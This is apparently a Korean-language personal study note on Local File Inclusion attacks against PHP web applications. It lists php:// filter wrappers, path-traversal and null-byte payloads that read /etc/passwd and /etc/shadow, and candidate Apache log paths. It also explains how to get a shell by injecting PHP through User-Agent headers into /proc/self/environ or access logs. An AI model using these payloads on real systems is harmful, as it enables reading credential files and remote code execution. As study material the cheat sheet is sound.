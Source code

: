 ```yaml
---
title : "LFI"
excerpt : "LFI"
toc : true
toc_sticky : true
categories :
  - Web
  - LFI
tags :
  - LFI
---
```


## 1. php wrapper
```
php://filter/convert.base64-encode/resource=
php://filter/convert.base64-decode/resource=
php://filter/string.rot13/resource= 
php://filter/write=base64-encode/resource=
php://input
```

## 2. 기본 공격
```
1. http://www.site.com/index.php?pages=/etc/passwd
2. http://www.site.com/index.php?pages=../../../../etc/passwd
3. http://www.site.com/index.php?pages=../../../../etc/passwd%00
/etc/passwd 뒤에 %00은 널바이트로써 /etc/passwd 뒤에 붙는 쓸데없는 값들을 널바이트로 날려버림.

그 외 가능한 곳
/etc/shadow
/etc/group
/etc/security/group
/etc/security/passwd
/etc/security/user
/etc/security/environ
/etc/security/limits
/usr/lib/security/mkuser.default
```  

### 2-1. /proc/self/environ
/proc/self/environ에 접근히 가능한지 확인해볼 필요가 있음.   
만약 접근이 가능하다면 공격자는 공격대상인 사이트에 쉘을 올림으로서 영향력을 행사할수 있음.  
접근이 불가능 하다면 공격자는 아마 접근이 가능한 다른 파일을 찾아야 함.  

만약 /proc/self/environ이 성공적으로 읽혀들여 졌다면 아래와 비슷한 결과들이 보일것임.  
```
DOCUMENT_ROOT=/home/sirgod/public_html GATEWAY_INTERFACE=CGI/1.1 HTTP_ACCEPT=text/html, application/xml;q=0.9, 
application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1 
HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2a d7ac HTTP_HOST=www.website.com 
HTTP_REFERER=http://www.website.com/etc/passwd 

HTTP_USER_AGENT= Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)

PATH=/bin:/usr/bin QUERY_STRING=view=..%2F..%2F..%2F..%2F..%2F..%2Fpr oc%2Fself%2Fenviron REDIRECT_STATUS=200 
REMOTE_ADDR=6x.1xx.4x.1xx REMOTE_PORT=35665 REQUEST_METHOD=GET REQUEST_URI=/index.php?
view=..%2F..%2F..%2F..%2F..%2F..%2Fproc% 2Fself%2Fenviron SCRIPT_FILENAME=/home/sirgod/public_html/index.php 
SCRIPT_NAME=/index.php SERVER_ADDR=1xx.1xx.1xx.6x SERVER_ADMIN=webmaster@website.com SERVER_NAME=www.website.com 
SERVER_PORT=80 SERVER_PROTOCOL=HTTP/1.0 SERVER_SIGNATURE=
Apache/1.3.37 (Unix) mod_ssl/2.2.11 OpenSSL/0.9.8i DAV/2 mod_auth_passthrough/2.1 mod_bwlimited/1.4 FrontPage/5.0.2.2635 Server at www.website.com Port 80
```
User-Agent를 burpsuite로 system 함수나 passthru함수를 이용한 PHP 코드를 넣거나 쉘을 올려 공격하는 방법.  
<a href="https://hapumee.github.io/2018/05/21/wget-vs-curl/" target="_blank">쉘은 wget이나 curl을 이용하는 방법이 있음.</a> 

### 2-2. Log files
공격자가 평범한 아파치 서버를 공격한다고 가정함.  
기본적으로 아파치서버들은 access_log 라고 불리는 로그파일과 error_log 라고 불리는 로그 파일을 생성함.   
만약 공격자들이 이 로그들을 이용한다면 PHP 코드를 올릴수 있음.  
아래는 로그의 위치들을 예상해서 모아논 목록 
```
/etc/httpd/logs/access.log
/etc/httpd/logs/access_log
/etc/httpd/logs/error.log
/etc/httpd/logs/error_log
/opt/lampp/logs/access_log
/opt/lampp/logs/error_log
/usr/local/apache/log
/usr/local/apache/logs
/usr/local/apache/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/error.log
/usr/local/apache/logs/error_log
/usr/local/etc/httpd/logs/access_log
/usr/local/etc/httpd/logs/error_log
/usr/local/www/logs/thttpd_log
/var/apache/logs/access_log
/var/apache/logs/error_log
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache-ssl/access.log
/var/log/apache-ssl/error.log
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/httpsd/ssl.access_log
/var/log/httpsd/ssl_log
/var/log/thttpd_log
/var/www/log/access_log
/var/www/log/error_log
/var/www/logs/access.log
/var/www/logs/access_log
/var/www/logs/error.log
/var/www/logs/error_log

C:\apache\logs\access.log
C:\apache\logs\error.log
C:\Program Files\Apache Group\Apache\logs\access.log
C:\Program Files\Apache Group\Apache\logs\error.log
C:\program files\wamp\apache2\logs
C:\wamp\apache2\logs
C:\wamp\logs
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
```
access_log와 error_log 공격 방법은 다름.  
```
access_log 공격방법 -> User-Agent 변조, 안되면 REFERER 변조 등 다른 방법도 있음.
```
```
error_log 공격방법

공격조건 : 404에러나 500에러를 내야 함. 
그 이유는 바로 error_log가 404에러나 500에러가 났을때 기록되기 때문임. 
만약 서버가 404에러나 500에러가 발생했을시 다른 에러가 나게 한다면 error_log를 이용한 LFI는 불가능.
```

## 3. 참고자료/출처
<a href="https://xer0s.tistory.com/1" target="_blank">https://xer0s.tistory.com/1</a>


